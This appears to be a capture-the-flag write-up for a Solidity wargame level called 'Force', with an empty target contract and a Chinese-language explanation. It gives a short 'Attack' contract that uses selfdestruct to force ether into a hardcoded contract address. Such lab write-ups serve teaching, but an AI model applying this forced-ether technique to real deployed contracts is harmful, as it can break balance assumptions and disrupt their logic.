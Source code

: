 ## 0x01 Task

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

```javascript
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /_/   /
    ____/ o o 
  /~____  =ø= /
 (______)__m_m)

*/}
```

## 0x02 Solution

这里用到智能合约的一个 trick，当一个合约调用 `selfdestruct` 函数，也就是自毁时，可以将所有存款发给另一个合约，并且强制对方收下。
所有只需要再部署一个合约，打一点钱，然后自毁，把剩余金额留给目标合约。

```javascript
pragma solidity ^0.4.18;

contract Attack {
    address instance_address = 0x489457718ffbdc1721938ac411a27a74fa31a85c;

    function Attack() payable{}
    function hack() public {
        selfdestruct(instance_address);
    }
}
```

